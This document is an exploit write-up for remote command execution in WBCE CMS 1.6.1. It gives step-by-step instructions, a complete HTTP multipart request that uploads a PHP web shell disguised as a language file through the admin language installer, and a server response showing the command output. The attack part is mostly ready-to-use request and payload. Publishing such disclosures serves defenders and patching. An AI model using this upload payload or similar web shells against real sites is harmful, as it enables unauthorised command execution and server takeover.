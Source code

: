 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution

- **Date:** 30/11/2023
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [WBCE CMS](https://wbce-cms.org/)
- **Software Link:** [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
- **Version:** 1.6.1

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/1.png" alt="WBCE_CMS Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/2.png" alt="WBCE_CMS Image" width="1000">


### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language >https://demos6.demo.com/admin/languages/index.php
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > https://demos6.demo.com/admin/languages/install.php
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)


### Post Request:

```http
POST /admin/languages/install.php HTTP/1.1
Host: demos6.demo.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.demo.com/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.demo.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"


-----------------------------86020911415982314764024459--```

### Response:

```<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>

                    <p>Invalid WBCE CMS language file. Please check the text file.</p>
        
                    <p><a href="index.php" class="button">Back</a></p>```

